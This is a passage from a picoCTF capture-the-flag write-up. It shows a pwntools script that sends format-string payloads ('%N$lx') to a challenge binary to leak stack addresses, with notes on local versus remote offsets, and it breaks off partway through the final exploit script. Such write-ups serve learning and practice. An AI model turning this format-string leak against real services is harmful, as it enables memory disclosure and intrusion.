 ```python
#!/usr/bin/env python3

from pwn import *

context.binary = elf = ELF('vn')

address_port_str = "rescued-float.picoctf.net:49678"
ip, port_str = address_port_str.split(":")
port = int(port_str)

def get_process():
    if len(sys.argv) == 1:
        return elf.process()

    #host, port = sys.argv[1].split(':')
    return remote(ip, port)


def main():
    context.log_level = 'CRITICAL'

    for i in range(75):
        p = get_process()
        p.sendline(f'%{i + 1}$lx'.encode())
        #print(p.recv())
        print(i + 1, p.recvuntil("\n").decode().strip().split(":")[1])


if __name__ == '__main__':
    main()

```

* The above script would output offsets with addresses. Using the earlier reference, I could find addresses within the binary beginning with `0x55..`
  * I could test a few in `gdb` to see where they resided, eventually finding one along 23 that landed in `main()`.
* This lead to an issue/discrepancy, because - for reasons that I wasn't clear on - the address offsets in the local binary did not align to the remote instance.
  * Using the above script against the remote instance yielded more addresses to compare against.
  * I figured the address would be close, and I found one not too far that worked.
* Final exploit below:

```python
#!/usr/bin/env python3
import sys

from pwn import *

context.update(arch='amd64', os='linux')

elf = context.binary = ELF('./vn')

#binstr = "./perplexed"
address_port_str = "rescued-float.picoctf.net:49678"
ip, port_str = address_port_str.split(":")
port = int(port_str)

#    break *0x56555d36
if (len(sys.argv)<= 1):
    p = process()
elif (sys.argv[1] == "dbg"):
    p = gdb.debug(['./vn'],'''
    unset env LINES
```